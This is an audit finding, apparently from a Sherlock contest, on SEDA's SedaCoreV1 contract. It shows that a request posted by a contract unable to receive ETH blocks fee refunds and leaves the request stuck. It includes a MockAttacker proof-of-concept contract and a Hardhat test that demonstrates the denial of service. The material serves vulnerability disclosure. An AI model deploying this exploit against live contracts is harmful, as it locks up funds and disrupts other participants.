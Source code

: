 Restless Daisy Terrier

Medium

# [M-2] Malformed request will not allow to fullfill or to remove it

#### Severity: Medium

Impact: Medium

Likelihood: High

## Description

`contracts/core/SedaCoreV1.sol#postRequest()`  can be called by a not payable contract (no fallback() or receive()) and with some amount `requestFee`. It will prevent to execute `postResult()` or `withdrawTimedOutRequest()` because `_transferFee()` will revert.

https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-evm-contracts/contracts/core/SedaCoreV1.sol#L196-L199

```solidity
    function postResult(
        SedaDataTypes.Result calldata result,
        uint64 batchHeight,
        bytes32[] calldata proof
    ) public payable override(ResultHandlerBase, IResultHandler) whenNotPaused returns (bytes32) {
        RequestDetails memory requestDetails = _storageV1().requestDetails[result.drId];


        if (refundAmount > 0) {
    //requestDetails.requestor not payable, revert
            _transferFee(requestDetails.requestor, refundAmount);
            emit FeeDistributed(result.drId, requestDetails.requestor, refundAmount, ISedaCore.FeeType.REFUND);
        }

        return resultId;
}
```

https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-evm-contracts/contracts/core/SedaCoreV1.sol#L252

```solidity
    function withdrawTimedOutRequest(bytes32 requestId) external {
        RequestDetails memory details = _storageV1().requestDetails[requestId];

//.....

        // Transfer total fees to data request creator
        if (totalRefund > 0) {
    //details.requestor not payable, revert
            _transferFee(details.requestor, totalRefund);
            emit FeeDistributed(requestId, details.requestor, totalRefund, FeeType.WITHDRAW);
        }
    }
```



## Impact

Disrupt functioning of the contract, prevent to other participants to receive fees.

## Proof of Concepts

contracts/mocks/MockAttacker.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {ISedaCore} from "../interfaces/ISedaCore.sol";
import {SedaDataTypes} from "../libraries/SedaDataTypes.sol";


contract MockAttacker {

    address internal immutable sedaCoreAddr;

    constructor(address _sedaCoreAddr) {
        sedaCoreAddr = _sedaCoreAddr;
    }

    function attackPostRequest(
        SedaDataTypes.RequestInputs calldata inputs,
        uint256 requestFee,
        uint256 resultFee,
        uint256 batchFee
        ) external payable {

        ISedaCore(sedaCoreAddr).postRequest{value: msg.value}(inputs, requestFee, resultFee, batchFee);
    }

}
```

test/core/SedaCoreV1.test.ts

```solidity
it('malformed request', async () => {
        const { core, prover, data } = await loadFixture(deployCoreFixture);
        const [requestor, resultSubmitter, batchSubmitter, withdrawer, attacker] = await ethers.getSigners();

        const MyContract = await ethers.getContractFactory("MockAttacker");
        const myContract = await MyContract.deploy(core);

        // Set up fees
        const fees = {
          request: ethers.parseEther('1.0'),
          result: ethers.parseEther('0'),
          batch: ethers.parseEther('0'),
        };
        const totalFee = fees.request + fees.result + fees.batch;

        // Post request with all fees
        await (myContract.connect(attacker) as MockAttacker).attackPostRequest(data.requests[1], fees.request, fees.result, fees.batch, { value: totalFee });

        // Submit batch
        const batch = { ...data.initialBatch, batchHeight: 1 };
        const signatures = [await data.wallets[0].signingKey.sign(deriveBatchId(batch)).serialized];
        await (prover.connect(batchSubmitter) as Secp256k1ProverV1).postBatch(batch, signatures, [
          data.validatorProofs[0],
        ]);

        await expect((core.connect(resultSubmitter) as SedaCoreV1).postResult(data.results[1], 1, data.proofs[1]))
          .to.be.revertedWithCustomError(core, 'FeeTransferFailed');

        // Fast forward past timeout period
        await ethers.provider.send('evm_increaseTime', [ONE_DAY_IN_SECONDS]);
        await ethers.provider.send('evm_mine', []);

        const requestId = await deriveRequestId(data.requests[1]);

        await expect((core.connect(withdrawer) as SedaCoreV1).withdrawTimedOutRequest(requestId))
          .to.be.revertedWithCustomError(core, 'FeeTransferFailed');

      });
```

## Recommended mitigation

Check `requestor` to be payable.

